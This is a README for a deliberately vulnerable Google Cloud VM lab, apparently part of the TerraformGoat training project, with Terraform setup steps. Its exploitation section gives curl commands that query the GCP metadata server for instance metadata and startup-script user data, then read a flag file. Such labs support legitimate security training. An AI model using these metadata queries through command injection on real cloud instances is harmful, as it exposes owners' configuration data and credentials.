


# GCP VM Command Execution Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the GCP VM command execution vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on VM through the command execution vulnerabilities.

## Deployment Environment

Perform gcp authentication with the following command, generate a key file at [service account](https://console.cloud.google.com/projectselector2/iam-admin/serviceaccounts?supportedpurview=project), and copy the key to Authentication in the container

```shell
docker cp key.json terraformgoat:/terraformgoat # run on the host
docker exec -it terraformgoat /bin/bash  # run on the host
gcloud auth activate-service-account --key-file key.json # run on the container
```

Execute the following command in the container

```shell
cd /TerraformGoat/gcp/vm/vm_command_execution
```

Edit the `terraform.tfvars` file and fill in the file with your `gcp project id`

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`



After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

> Because the scenario takes some time to build, if your browser cannot access this site, you can wait a few minutes and access it again.

## Vulnerability Utilization

On VM with command execution vulnerabilities, we can use command execution to get VM metadata, user data and other information.

read metadata

```shell
curl "http://metadata.google.internal/computeMetadata/v1" -H "Metadata-Flavor: Google"
```



read user data

> The premise is that the target has been configured with user data.

```shell
curl "http://metadata.google.internal/computeMetadata/v1/instance/attributes/startup-script" -H "Metadata-Flavor: Google"
```


In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use  command execution to read this file.

```shell
cat /flag69152201.txt
```


Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
